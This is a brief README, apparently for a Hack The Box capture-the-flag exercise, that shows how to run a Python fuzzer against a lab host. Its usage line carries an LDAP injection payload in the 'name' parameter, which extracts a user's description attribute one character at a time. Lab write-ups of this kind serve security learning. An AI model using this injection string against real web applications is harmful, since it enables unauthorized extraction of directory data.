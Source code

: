 # LDAP-Analysis-HTB
## USAGE 

```bash
python fuzzer.py --charset /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --url "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
```
